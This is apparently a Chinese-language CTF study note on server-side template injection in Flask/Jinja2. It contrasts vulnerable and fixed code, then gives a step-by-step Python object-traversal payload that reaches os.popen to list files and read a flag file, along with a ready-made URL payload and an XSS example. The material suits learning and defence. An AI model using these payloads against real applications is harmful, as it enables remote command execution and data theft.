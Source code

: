 <center>SSTI</center>

> 全称server-site template inject(服务端模板注入攻击)



此处用我在CTF中的[一道题](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1)演示

> 该web使用的是python的flask框架
>
> flask的渲染引擎是`jinja2`



众所周知，`python`的web框架里jinja2是用`{{}}`来作为变量包裹标识符

```
存在漏洞的代码

@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)
```

> 上面代码中会直接接收用于传过来的值，然后渲染到模板上去。

>  如果我构建的`id`值是一串js代码的话，也会被执行。`<img src=1 onerror="alert(1)">`

此代码存在漏洞的原因是数据和代码混淆，代码中的`code`是用户可控的，会和html拼接后直接带入渲染





修改为正确代码：

```
将代码改为如下，就可以自动的过滤用户的输出：

@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```

> 在这段代码中用户所控的是code变量，而不是模板内容。

>  模板引擎一般都默认对渲染的变量值进行编码转义





#### 文件包含



> 基于上面有漏洞的代码



同样的和上面漏洞类似：

CTF中：

<img src="../../../../img/SSTI1.png" style="zoom:67%;" />

> 可以看到此处的CTF中也是那个漏洞：代码和数据混淆



而在python中因为使用的是`jinja2`。所以`{{}}`和`{%%}`都会被系统认为是python代码。

通过这种方式就可以构建特定的`payload`来找到我们的flag。







先看看下面几个魔术方法：

```
__class__  返回对象所属的类
__mro__    返回当前类的所有父类，按从小到大排序。最后面的是超类
__base__   返回当前类的父类
// __base__和__mro__都是用来寻找基类的

__subclasses__   返回当前类的子类列表。注意要加上()。__subclasses__()。因为其本身是个方法
__init__  		 类的初始化方法
__globals__  	 对包含函数全局变量的字典的引用
func_globals	 返回一个包含函数全局变量的字典引用。返回的是键值对。
```



1. 获取字符串对象

```
>>> ''.__class__
<type 'str'>
```



2. 寻找字符串所有基类

```
>>> ''.__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```



3. 寻找可用的子类

```
>>> ''.__class__.__mro__[2].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type
	……省略大量输出
<class 'werkzeug.test.Client'>] not found
```

找到其中的`warnings.catch_warnings`模块，在第`59`个



4. 寻找可用的全局函数引用。(其中的还是模块)

```
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals																	//返回的是一个字典
{<function filterwarnings at 0x7fe4bc0b6a28>, 'once_registry': {}, 'WarningMessage': <class 'warnings.WarningMessage'>, '_show_warning': <function _show_warning at 0x7fe4bc0b69b0>, 'filters': [('ignore', <_sre.SRE_Pattern object at 0x7fe4bc037a50>, <type 'exceptions.DeprecationWarning'>, <_sre.SRE_Pattern object at 0x7fe4bc139a80>, 0), ('ignore', None, <type 'exceptions.DeprecationWarning'>, None, 0),
省略大量输出
'linecache': <module 'linecache' from '/usr/lib/python2.7/linecache.pyc'>
省略输出
}
```

找到其中的`linewaring`模块。



5. 使用`linecache`下的eval，查看当前目录下文件

```
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')

fl4g index.py
```



6. 查看文件`fl4g`

```
>>> ''.__class__.__mro__[2].__subclasses__()[40]("fl4g").read()
```

> 这就是一个payload。40是`file`类。



上面的`1~6`的流程，直接套进CTF题就行了。例如：

```
http://111.198.29.45:57724/{{''.__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}
```



模板注入本身就会产生xss漏洞。而且在此基础上甚至能`getshell`

​	没懂得话，看一下几篇文章

```
https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/

https://www.freebuf.com/column/187845.html

https://www.cnblogs.com/tr1ple/p/9415641.html

https://xz.aliyun.com/t/2908								//这篇文章没有看懂

https://www.cnblogs.com/mke2fs/p/11523005.html			//该CTF题的答案
```



看了这几篇文章过后，不知道为什么我不能使用`__dict__`